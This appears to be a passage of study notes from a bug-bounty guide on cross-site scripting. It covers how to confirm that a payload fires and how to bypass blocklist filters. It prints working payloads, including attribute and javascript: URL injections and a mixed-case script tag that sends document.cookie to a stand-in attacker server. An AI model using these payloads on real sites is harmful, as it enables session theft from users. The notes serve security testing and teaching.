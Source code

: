 # Step 3 Confirm The Impact
- Check for your payload on the destination page. 
- If you’re using an alert function, was a pop-up box generated on the page? If you’re using a location payload, did your browser redirect you offsite?
- Be aware that sites might also use user input to construct something other than the next returned web page.
- Your input could show up in future web pages, email, and file portals. 
A time delay also might occur between when the payload is submitted and when the user input is rendered. 
- This situation is common in log files and analytics pages. 
- If you’re targeting these, your payload might not execute until later, or in another user’s account. 
- And certain XSS payloads will execute under only certain contexts, such as when an admin is logged in or when the user actively clicks, or hovers over, certain HTML elements. 
- Confirm the impact of the XSS payload by browsing to the necessary pages and performing those actions.

# Bypassing XSS Protection
- Most applications now implement some sort of XSS protection in their input fields. Often, they’ll use a blocklist to filter out dangerous expressions that might be indicative of XSS. Here are some strategies for bypassing this type of protection.

## Alternative JavaScript Syntax

- Often, applications will sanitize ```<script>``` tags in user input. 
- If that is the case, try executing XSS that doesn’t use a ```<script>``` tag. 
- For example, remember that in certain scenarios, you can specify JavaScript to run in other types of tags. 
- When you try to construct an XSS payload, you can also try to insert code into HTML tag names or attributes instead. 
- Say user input is passed into an HTML image tag, like this:
```
<img src="USER_INPUT">
```
- Instead of closing out the image tag and inserting a script tag, like this
```
<img src="/><script>alert('XSS by Vickie');</script>"/>
```
- you can insert the JavaScript code directly as an attribute to the current tag:
```
<img src="123" onerror="alert('XSS by Vickie');"/>
```
- Another way of injecting code without the ```<script>``` tag is to use the special URL schemes mentioned before. 
- This snippet will create a Click me! link that will generate an alert box when clicked:
```
<a href="javascript:alert('XSS by Vickie')>Click me!</a>"
```
## Capitalization and Encoding
- You can also mix different encodings and capitalizations to confuse the XSS filter. 
- For example, if the filter filters for only the string "script", capitalize certain letters in your payload. 
- Since browsers often parse HTML code permissively and will allow for minor syntax issues like capitalization, this won’t affect how the script tag is interpreted:
```
<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
```
- If the application filters special HTML characters, like single and double quotes, you can’t write any strings into your XSS payload directly. 
- But you could try using the JavaScript fromCharCode() function, which maps numeric codes to the corresponding ASCII characters, to create the string you need. 